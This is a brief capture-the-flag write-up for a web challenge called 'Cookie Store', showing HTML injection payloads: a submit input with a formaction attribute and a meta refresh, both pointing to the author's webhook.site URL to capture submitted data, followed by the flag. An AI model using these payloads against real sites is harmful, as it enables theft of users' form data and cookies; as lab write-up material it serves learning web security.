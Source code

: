 # Cookie Store

I started with reviewing code this application and undestending how it works. The most important is js whos click button input[type=”submit”] this js gets FIRST element with that tag. Lets hack….

starting with

```sql
<input type="submit">
```

but this html destroy page but with:

```sql
<input type='submit'>
```

it works but how redirect request to my webhook

```sql
<input type='submit' formaction='https://webhook.site/8fc412cf-ca22-436f-98b5-388322118ecf'>
```

from other writeup technics

```sql
<meta http-equiv='refresh' content='0; url=https://webhook.site/8fc412cf-ca22-436f-98b5-388322118ecf'>
```


 ![Alt text](screenshot/cookie_store.png?raw=true)

flag: `TFCCTF{144ab0e4c358b00b1258f2aea2250b21}`
